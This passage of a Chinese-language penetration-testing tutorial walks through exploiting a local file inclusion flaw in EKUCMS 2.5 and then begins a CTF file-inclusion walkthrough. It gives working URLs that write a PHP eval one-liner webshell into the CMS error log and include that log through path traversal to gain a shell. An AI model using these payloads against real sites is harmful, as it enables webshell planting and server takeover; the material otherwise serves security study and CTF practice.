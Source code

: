 - 上传自定义文件，再包含上传文件触发本地文件包含漏洞
- 没有上传入口，只能向已有文件中写入攻击代码，再包含写入攻击代码后的已有文件

本CMS漏洞利用方式是后者

该CMS2.5版本存在本地文件包含漏洞。我们可以利用这个漏洞，让其包含日志文件，然后再利用报错信息将一句话木马写入日志中。然后利用文件包含漏洞包含该日志文件，再用菜刀连接拿shell。

渗透之前的操作，比如先用后台扫描工具，扫描得到该网站的后台目录结构，才更好的进行后面的操作。

我们通过访问该url，将一句话木马写入日志文件中，不必写php前后尖括号，因为文件包含会自动将文件内容作为php文件来执行

```
http://localhost/pentest/include/ekucms/index.php?s=my/show/id/{~eval($_POST[x])}
```

网页返回报错信息

![](https://gitee.com/YatJay/image/raw/master/img/202203132151885.png)

报错信息会记录在`ekucms\temp\Logs`下的文件中，在日志文件中可以看到刚才提交的后门代码已经写入日志文件，日志文件名为`年_月_日.log`

![](https://gitee.com/YatJay/image/raw/master/img/202203132152107.png)

使用下面的url将日志文件包含进来，并触发文件包含漏洞

```
http://localhost/pentest/include/ekucms/index.php?s=my/show/id/\..\temp\logs\22_03_13.log
```

使用菜刀访问上述url触发文件包含漏洞并获取Webshell

![](https://gitee.com/YatJay/image/raw/master/img/202203132157251.png)

![](https://gitee.com/YatJay/image/raw/master/img/202203132157593.png)

或直接在浏览器中提交POST参数值

![](https://gitee.com/YatJay/image/raw/master/img/202203132204129.png)

## CTF-南邮大,i春秋百度杯真题-白盒——手工看参数值及功能点

### 南邮杯

题目位置：http://4.chinalover.sinaapp.com/web7/index.php

作为一道CTF题目，先观察URL可知，似乎意在考查文件包含

进入后显示为`index.php`

![](https://gitee.com/YatJay/image/raw/master/img/202203131728577.png)

点击后显示为`index.php?file=show.php`

![](https://gitee.com/YatJay/image/raw/master/img/202203131729968.png)

直接访问show.php和`index.php?file=show.php`结果相同，这说明是将show.php文件包含执行

![](https://gitee.com/YatJay/image/raw/master/img/202203131729447.png)
